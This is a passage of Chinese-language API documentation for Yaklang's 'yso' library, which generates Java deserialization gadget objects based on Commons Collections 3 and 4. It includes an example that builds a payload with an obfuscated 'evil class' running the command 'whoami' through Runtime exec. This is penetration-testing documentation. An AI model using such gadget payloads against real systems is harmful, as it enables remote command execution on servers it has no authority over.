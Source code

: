 ## 参数说明

```
func GetCommonsCollections3JavaObject(options ...GenClassOptionFun) => (*JavaObject, error)
```

**请求参数**

- `options` : 用于配置Java对象的可变参数函数列表

**返回类型**

- `r1` : *JavaObject，成功时返回生成的Java对象
- `r2` : error，成功时为nil错误，失败时返回相应错误

## 示例代码

### 基础用法

生成一个Java对象，并指定恶意类的名称为'KEsBXTRS'，使用Runtime Exec方法执行命令

```yaklang
command = 'whoami'
className = 'KEsBXTRS'
gadgetObj,err = yso.GetCommonsCollections3JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```

## 26. `yso.GetCommonsCollections4JavaObject`

## 功能描述

基于Commons Collections 4.0 序列化模板生成并返回一个Java对象。用户可以通过提供额外的配置函数定制生成的Java对象的特定属性或行为。

## 参数说明

```
func GetCommonsCollections4JavaObject(options ...GenClassOptionFun) => (*JavaObject, error)
```

**请求参数**

- `options` : 用于配置Java对象的可变参数函数列表

**返回类型**

- `r1` : *JavaObject，成功时返回生成的Java对象
- `r2` : error，成功时为nil错误，失败时返回相应错误

## 示例代码
